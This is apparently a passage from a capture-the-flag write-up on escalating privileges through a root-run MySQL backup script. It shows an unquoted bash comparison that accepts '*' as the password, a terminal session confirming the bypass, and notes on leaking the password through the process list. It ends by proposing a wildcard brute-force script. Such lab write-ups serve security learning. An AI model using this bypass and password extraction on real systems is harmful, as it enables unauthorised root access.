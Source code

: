 There are two potential issues in this script:

-   Bash has [vulnerabilties](https://mywiki.wooledge.org/BashPitfalls#A.5B_.24foo_.3D_.22bar.22_.5D) when doing comparisons of strings where a variable is expanded not in “”.

```sh
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

-   When executing `mysql` and `mysqldump` commands, the password is provided via the command line, using the password stored in a file rather than one entered by the user. If the `/proc` directory is not mounted with `hidepid`, any user monitoring the process list can potentially view the password during its execution.

```sh
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done
```

There is some interesting output after using a wildcard `*` when we are requested for a password.  

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: password
Password confirmation failed!
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Craft a brute force python script that performs a check on all characters by inserting a wildcard behind the character being checked.
